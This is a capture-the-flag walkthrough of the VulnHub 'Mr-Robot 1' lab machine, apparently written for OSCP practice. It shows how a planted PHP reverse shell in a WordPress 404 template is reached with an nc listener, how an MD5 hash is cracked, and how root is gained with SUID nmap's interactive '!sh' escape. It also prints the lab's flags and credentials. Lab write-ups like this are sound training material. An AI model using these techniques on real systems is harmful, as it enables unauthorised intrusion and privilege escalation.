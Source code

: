 ```yaml
---
title:  "Mr-Robot 1 Walkthrough"
header: "Mr-Robot 1 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```


I haven't had a chance to watch all of the Mr. Robot series but this machine was a lot of fun. What I particularly like is that you are rewarded if you properly enumerate. If you don't properly enumerate you can still break into the machine, it simply just takes you a lot longer. If you plan on going for the OSCP, this would be another good machine to play around with.  

# Host Enumeration  
***

I started by performing an nmap scan to see what open ports and services were present  

`nmap -T4 -A -v <IP>`  

After running the scan, it appears that only ports 80 and 443 are open for this machine.

# Service Enumeration  
***

While I kicked off a Dirb and Nikto scan, I navigated the webpage but didn't find anything of particular interest.

![Home page](/assets/images/mrrobothome.jpg)  

Next I checked to see if a robots.txt was present and it was. This revealed two files
- **fsocity.dic -** Appears to be a dictionary file for brute forcing
- **key-1-of-3.txt -** Contains flag 1 "073403c8a58a1f80d943455fb30724b9"

I returned to my Dirb scan results and opened up a file "license" and found "ZWxsaW90OkVSMjgtMDY1Mgo=" which appears to be base64 encoded. Normally I navigate to a website to decode base64 but wanted to try a way on my Kali box.  

```console
root@kali:~# echo ZWxsaW90OkVSMjgtMDY1Mgo= | base64 -d
elliot:ER28-0652
```

My Nikto/Dirb lead me to the default WordPress login screen `wp-login/` in which I logged in with the above newly discovered credentials.

![WordPress Login](/assets/images/mrrobotwplogin.jpg)  

# Breach  
***

As per usual, you look for ways to upload some type of code and I found a way via `Appearance > Editor`.  I simply loaded a reverse PHP shell at the bottom of "404 Template/404.php". 

![404 Page](/assets/images/mrrobot404.jpg)  

**Side-Note:** This is a great exercise to create one via msfvenom which you can see instructions [here](http://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/). If you're short on time or simply want to try another method, [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is a great php reverse shell and you only need to configure the IP and port.
{: .notice--info}

I set up a listener on my attacking machine by running `nc -nvlp 1234`. I then navigated to the 404.php URL and was presented with a reverse shell.

![Reverse Shell](/assets/images/mrrobotrevshell.jpg)  

I got a TTY shell by executing `python -c 'import pty; pty.spawn("/bin/sh")'`. I found two files of interest in /home/robot. I didn't have access to view the second key but the password file had a username and hash in it.

```console
$ ls -al
ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

I utilized [CrackStation](https://crackstation.net/) to crack the hash and was came up with "abcdefghijklmnopqrstuvwxyz"

![Cracked Hash](/assets/images/mrrobothash.jpg)  

I then simply logged in as the robot user and could access the second key

```console
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ cat /home/robot/key-2-of-3.txt
cat /home/robot/key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

# Privilege Escalation  
***

In my standard enumeration process, I noticed nmap with SUID binary set to root. Certain versions allow for a popular way of running commands as root.

```console
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id    
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```

The last key is located in "/root/key-3-of-3.txt"

```console
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

# Review  
***

I had a lot of fun with this one. It's certainly a good one for OSCP'ers and anyone looking for a quick challenge. I loved reading about the nmap trick and testing some of my reverse shells.
